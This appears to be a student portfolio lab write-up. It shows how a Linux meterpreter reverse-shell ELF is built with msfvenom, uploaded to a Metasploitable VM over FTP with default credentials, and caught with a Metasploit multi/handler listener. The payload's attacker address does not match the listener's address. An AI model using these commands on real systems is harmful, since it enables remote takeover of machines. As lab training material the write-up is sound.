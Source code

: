 ```yaml
---
title: 😈 Establishing a Reverse Shell Using Metasploit and Msfvenom
permalink: /metasploit2
parent: Pentesting
---
```

# Establishing a Reverse Shell Using Metasploit and Msfvenom
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this Lab, I’ll be using Msfvenom and Metasploit to establish a reverse shell on a target machine. Msfvenom is a command line instance of Metasploit that is used to generate payloads, which is a piece of software that is designed to perform malicious actions on a target system. This payload must be delivered to and executed from the target machine. To do this, an attacker will use social engineering techniques or exploit a known vulnerability on the target machine. 

In this case, I’ll be creating a payload designed to establish a reverse shell. A reverse shell differs from a normal shell in that the target system initiates the connection back to the attacker’s machine. This connection is established when the payload is executed by the user of the target machine. From the attacker’s perspective, a benefit of establishing a reverse shell is that it may help bypass firewalls that block incoming traffic since the connection is coming from the target machine rather than the attacker’s machine. 

## Goals & Objectives
1. Create a reverse shell payload using Metasploit and Msfvenom
3. Transfer the payload to the target machine.
4. Create a listener to "listen" for an incoming connection from the target machine.
6. Execute the payload on the target machine.

## Results
### 📄 Task 1: Run Metasploit and Msfvenom

![](/assets/images/101_77_metasploit2/step0.png)

### 📄 Task 2: Create the reverse shell payload

In Metasploit, I use the following command to create the reverse shell payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=5555 -f elf -o reverse-sh.elf
```

![](/assets/images/101_77_metasploit2/step1.png)

```-p linux/x86/meterpreter/reverse_tcp``` specifies the reverse shell payload  
```LHOST``` specifies the IP address of the machine I want the target machine to establish a connection with, which is the attacker’s machine  
```LPORT``` specifies the port the target machine will connect through  
```-f``` specifies the file type. ELF, or Executable and Linkable Format, is a common file format for executable files  
```-o``` saves the payload with the chosen file name: reverse-sh.

<br>
<br>
### 📄 Task 3: Transfer the payload to the target machine

There are many ways an attacker can transfer a payload to a target machine, such as using social engineering techniques like phishing, USB baiting, or watering hole attacks. For the sake of simplicity, I am provided with the username and password of the target machine.

With those credentials, I can use FTP (file transfer protocol), which is a standard network protocol used to transfer files between devices on a network. I use the following commands:

```bash
ftp 192.168.28.128 
put reverse-sh.elf
by
```

![](/assets/images/101_77_metasploit2/step2a.png)

```ftp 192.168.28.128``` establishes the FTP session. 192.168.28.128 is the IP address of the target machine.
```put reverse-sh.elf``` sends the payload to the target machine  
```by``` ends the session

<br>
<br>
### 📄 Task 4: Gain access to the target machine and make the payload executable

I access the target machine by establishing an SSH connection. The Metasploitable VM target machine has a default username and password of "msfadmin" which I use to log in to the machine.

![](/assets/images/101_77_metasploit2/step3.png)

Now that I have access to the target machine, I will give all users on the machine permissions to execute the payload. I use the following command: ```chmod +x reverse-sh.elf```

![](/assets/images/101_77_metasploit2/step4.png)

```chmod``` is the change mode command, which allows me to change the permissions of a file. ```+x``` adds executable permissions to all users. 

To see how changing file permissions works in Linux, see my [Managing File Permissions in Linux](/permissions) project.

<br>
<br>
### 📄 Task 5: Create a listener on the attacker’s machine

In a reverse shell, the target machine is initiating the connection to the attacker’s machine. In order for the attacker’s machine to acknowledge the connection request from the target machine, a listener must be created on the attacker’s machine. 

The listener essentially acts as a receiver, ready to accept the connection initiated by the reverse shell payload.

In a new terminal on Kali Linux, I initiate Metasploit once more by typing ```msfconsole```. Next, to specify that I want to use a listener, I type ```use exploit/multi/handler```. This tells Metasploit that I want to use the multi/handler module. With this module, I must specify three parameters: the local host (the attacker’s machine), the local port (through which the connection will be established), and the payload type. The following commands establish these parameters:

```bash
set lhost 192.168.28.129  
set lport 5555  
set payload linux/x86/meterpreter/reverse_tcp  
run
```

![](/assets/images/101_77_metasploit2/step5.png)

The attacking machine is now listening for an incoming connection from the target machine.

<br>
<br>
### 📄 Task 6: Execute the payload on the target machine

Finally, with the reverse shell payload in position and the listener active on the attacking machine, I switch back to the first terminal where a connection to the target machine was established using SSH and I type the following:

```./reverse-sh.elf```

Once I hit enter, the reverse shell payload executes. The Metasploit terminal outputs that “Meterpreter session 1 opened.” This indicates that the target machine initated the connection request and the attacking machine accepted the connection.

To find out how a Meterpreter shell works, please refer to my [Upgrading to Meterpreter Shell Using Metasploit](/metasploit1) project. 

Next, I type ```shell``` to access the reverse shell.

![](/assets/images/101_77_metasploit2/step6.png)

<br>
<br>

---

<a href="#top" id="back-to-top">Back to top</a>